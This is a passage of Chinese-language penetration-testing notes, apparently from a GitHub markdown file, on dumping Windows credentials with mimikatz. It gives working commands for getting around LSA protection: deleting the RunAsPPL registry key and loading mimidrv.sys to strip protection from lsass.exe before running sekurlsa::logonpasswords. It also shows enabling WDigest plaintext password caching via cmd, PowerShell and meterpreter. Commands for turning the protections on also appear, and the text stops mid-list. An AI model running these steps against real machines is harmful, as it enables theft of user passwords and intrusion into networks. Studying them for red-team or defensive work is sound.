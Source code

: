 LSA 包含本地安全机构服务器服务 (LSASS) 进程，可以验证用户的本地和远程登录，并强制本地安全策略。 Windows 8.1 操作系统和更高版本为 LSA 提供其他保护，以防止未受保护的进程读取内存及注入代码。

当windows启用 LSA保护时，mimikatz无法读取lsass的内存

> 解决方法一：关闭LSA保护，该操作可以通过修改注册表完成
>
> ```shell
> #开启LSA保护的报错示例
> mimikatz # sekurlsa::msv
> ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
> 
> mimikatz # privilege::debug
> Privilege '20' OK
> mimikatz # sekurlsa::logonPasswords
> ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list
> 
> #开启LSA保护策略
> reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 1 /f 
> #关闭LSA保护策略
> reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL
> ```
>
> 解决方法二：利用mimidrv.sys删除lsass.exe上的保护措施
>
> ```shell
> #将mimidrv.sys上传到同一目录下，启动mimikatz后进行加载
> mimikatz# !+
> mimikatz# !processprotect /process:lsass.exe /remove
> mimikatz# sekurlsa::logonpasswords
> ```
>

#### 禁止Wdigest Auth缓存明文密码

Microsoft发布了一个补丁[KB2871997](https://blogs.technet.microsoft.com/srd/2014/06/05/an-overview-of-kb2871997/)，安装此补丁后，允许用户在注册表中配置一个设置（高版本已默认配置）禁用 WDigest 身份验证，从而防止将明文密码存储在内存中。此时mimikatz用抓取时密码字段会显示为null

> 开启Wdigest Auth
>
> ```shell
> #cmd
> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
> #powershell
> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
> #meterpreter
> reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 1
> ```

> 关闭Wdigest Auth
>
> ```shell
> #cmd
> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
> #powerhsell
> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0
> #meterpreter
> reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 0
> #mimikatz
> sekurlsa::wdigest